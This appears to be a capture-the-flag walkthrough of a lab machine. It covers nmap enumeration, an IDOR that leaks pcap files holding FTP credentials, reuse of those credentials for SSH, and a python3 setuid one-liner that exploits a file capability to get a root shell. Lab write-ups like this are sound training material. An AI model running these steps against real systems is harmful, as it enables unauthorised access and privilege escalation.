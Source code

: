 Boot up the machine and enumerate using nmap.

```bash
sudo nmap -sS -sV -sC -T5 10.10.10.245 -oN nmap-scan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-13 06:05 EDT
Warning: 10.10.10.245 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.10.245
Host is up (0.35s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.71 seconds
```
Nice, let's check out FTP first, but FTP anonymous login is not allowed, oops, let's visit the web page then.

On the web-page we can see a security dashboard, and peek into .pcap files.

```link
http://10.10.10.245/data/10
```

Intresting, this is a basic IDOR, we can snoop onto other, .pcaps files too.

The pcap file at /0 looks intresting.

This .pcap file contains details for ftp login, using it to log onto FTP.

```ftp
ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||25941|)
150 Here comes the directory listing.
-rwxrwxr-x    1 1001     1001       956174 Jul 13 05:18 linpeas.sh
drwxr-xr-x    3 1001     1001         4096 Jul 13 05:26 snap
-r--------    1 1001     1001           33 Jul 13 00:33 user.txt
226 Directory send OK.
```
With these creds we get the user flag, lest reuse these creds for ssh.

Those credentials are reusable, and we already have ssh on the machine, run it to find the possible exploitable permissions.

Linpeas do give us a very intrsting result,
```bash
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

We can exploit the machine with python.

Exploit (let's change our UID to 0, effectively making us root.):
```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

And boom, we are root.
```
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
# cd /root
# ls
root.txt  snap
```
